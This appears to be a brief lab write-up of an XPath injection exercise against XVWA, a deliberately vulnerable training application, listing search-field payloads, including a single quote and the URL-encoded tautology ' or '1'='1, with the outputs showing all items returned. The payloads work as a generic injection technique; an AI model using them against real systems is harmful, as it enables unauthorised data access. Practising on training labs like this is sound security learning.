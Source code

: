 # XPATH Injection

Paylaod: `search=1&submit=`
Output: ID: 1, Item: Affogato

Input: `'`
Payload: search=%27&submit=
Output: Item Not Found

Input: ' or '1'='1
Payload: search=%27+or+%271%27%3D%271&submit=
Output: All Items are shown

## References
https://github.com/rudSarkar/xvwa-solution/blob/master/XPATH-injection-xvwa.md
